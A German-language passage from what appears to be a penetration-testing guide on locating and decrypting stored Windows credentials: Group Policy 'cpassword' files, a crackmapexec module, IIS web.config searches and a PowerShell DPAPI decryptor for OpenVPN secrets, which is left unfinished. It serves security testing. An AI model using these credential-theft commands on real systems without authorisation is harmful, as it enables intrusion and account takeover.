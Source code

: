 Um dieses Risiko zu mindern, wurde eine Funktion entwickelt, die nach lokal zwischengespeicherten GPP-Dateien sucht, die ein "cpassword"-Feld enthalten, das nicht leer ist. Bei Auffinden einer solchen Datei entschlüsselt die Funktion das Passwort und gibt ein benutzerdefiniertes PowerShell-Objekt zurück. Dieses Objekt enthält Details über die GPP und den Speicherort der Datei, was bei der Identifizierung und Behebung dieser Sicherheitsanfälligkeit hilft.

Suchen Sie in `C:\ProgramData\Microsoft\Group Policy\history` oder in _**C:\Documents and Settings\All Users\Application Data\Microsoft\Group Policy\history** (vor W Vista)_ nach diesen Dateien:

* Groups.xml
* Services.xml
* Scheduledtasks.xml
* DataSources.xml
* Printers.xml
* Drives.xml

**Um das cPassword zu entschlüsseln:**
```bash
#To decrypt these passwords you can decrypt it using
gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
```
Verwendung von crackmapexec, um die Passwörter zu erhalten:
```bash
crackmapexec smb 10.10.10.10 -u username -p pwd -M gpp_autologin
```
### IIS Web Config
```powershell
Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
```

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
C:\inetpub\wwwroot\web.config
```

```powershell
Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
Get-Childitem –Path C:\xampp\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
```
Beispiel für web.config mit Anmeldeinformationen:
```xml
<authentication mode="Forms">
<forms name="login" loginUrl="/admin">
<credentials passwordFormat = "Clear">
<user name="Administrator" password="SuperAdminPassword" />
</credentials>
</forms>
</authentication>
```
### OpenVPN-Anmeldeinformationen
```csharp
Add-Type -AssemblyName System.Security
$keys = Get-ChildItem "HKCU:\Software\OpenVPN-GUI\configs"
$items = $keys | ForEach-Object {Get-ItemProperty $_.PsPath}

foreach ($item in $items)
{
$encryptedbytes=$item.'auth-data'
$entropy=$item.'entropy'
$entropy=$entropy[0..(($entropy.Length)-2)]

$decryptedbytes = [System.Security.Cryptography.ProtectedData]::Unprotect(
$encryptedBytes,
$entropy,
[System.Security.Cryptography.DataProtectionScope]::CurrentUser)

Write-Host ([System.Text.Encoding]::Unicode.GetString($decryptedbytes))
```